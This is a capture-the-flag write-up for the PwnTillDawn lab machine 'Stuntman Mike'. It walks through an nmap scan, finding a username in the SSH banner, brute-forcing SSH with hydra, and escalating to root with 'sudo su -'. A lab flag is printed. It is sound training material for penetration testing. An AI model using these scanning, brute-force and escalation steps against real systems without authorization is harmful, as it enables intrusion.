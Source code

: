 ```yaml
---
title: "PwnTillDawn - Stuntman Mike"
author: Nasrallah
description: ""
date: 2022-05-17 00:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, hydra]
---
```


---


## **Description**

Hello hackers, I hope you are doing well. We are doing `Stuntman Mike` from [PwnTillDawn](https://online.pwntilldawn.com/) and [Wizlynxgroup](https://www.wizlynxgroup.com). This is an easy linux machine, running a ssh server on port 22 and a webserver on port 8089. When we try to connect to ssh, the server reveals some useful information, we use that to brute force ssh and we find valid credentials. After login to the machine via ssh, we find that we can run any command as root, so we can easily change user to root. Let's get started.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.166
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:9e:99:ed:7e:e0:d5:83:ad:c9:ba:7c:f1:bc:44:06 (RSA)
|   256 7e:53:59:7b:2d:6c:3b:d7:21:28:cb:cb:78:af:99:78 (ECDSA)
|_  256 c5:d2:2d:04:f9:69:40:4c:15:34:36:fe:83:1f:f3:44 (ED25519)
8089/tcp open  ssl/http Splunk httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:15:13
|_Not valid after:  2022-10-24T09:15:13
```

There are two open ports, 22(SSH) and 8089(ssl/http).

### Web

Let's navigate to the webserver https://10.150.150.166:8089

![](/assets/img/pwntilldawn/stuntman/1.png)

The webserver is running splunkd version 8.0.0, which there no vulnerabilities on this version.

### SSH

Let's try to connect to ssh.

![](/assets/img/pwntilldawn/stuntman/2.png)

Wow, we got the flag and a username.

## **Foothold**

Let's brute force ssh using `hydra`.

![](/assets/img/pwntilldawn/stuntman/3.png)

Great! We got the password for mike. Let's login.

```bash
$ ssh mike@10.150.150.166
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
mike@10.150.150.166's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage



  System load:  0.0                Processes:            166
  Usage of /:   28.6% of 19.56GB   Users logged in:      1
  Memory usage: 20%                IP address for ens33: 10.150.150.166
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

18 packages can be updated.
0 updates are security updates.

mike@stuntmanmike:~$ 
```

## **Privilege Escalation**

Let's check our privileges wit `sudo-l`

```bash
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
mike@stuntmanmike:~$
```

Great! We can run any command as root.

Let's get a root shell by running `sudo su -`

```bash
mike@stuntmanmike:~$ sudo su -
[sudo] password for mike: 
root@stuntmanmike:~# id
uid=0(root) gid=0(root) groups=0(root)
root@stuntmanmike:~#
```
---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---